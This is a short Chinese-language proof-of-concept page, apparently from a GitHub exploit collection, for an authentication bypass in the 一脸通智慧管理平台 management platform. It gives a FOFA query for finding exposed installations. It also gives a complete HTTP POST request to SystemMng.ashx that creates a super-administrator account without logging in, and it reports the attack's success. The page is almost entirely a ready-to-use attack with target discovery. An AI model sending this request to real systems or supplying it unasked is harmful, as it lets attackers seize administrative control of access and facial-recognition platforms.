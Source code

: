# 一脸通智慧管理平台权限绕过漏洞

## 1.漏洞描述

一脸通智慧管理平台1.0.55.0.0.1及其以下版本SystemMng.ashx接口处存在权限绕过漏洞，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户。

## 2.搜索语法

```plain
fofa：title="欢迎使用脸爱云 一脸通智慧管理平台"
```

## 3.漏洞复现

```plain
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Length: 174

operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/a87857bf-1877-42f4-b295-037c8c6dc072)


成功创建账号，登陆后台可以看到自己创建的账号拥有管理员权限

![f35d6bd762f1c767b1d0f9109e27643](D:\py\POC\一脸通智慧管理平台权限绕过漏洞\f35d6bd762f1c767b1d0f9109e27643.png)
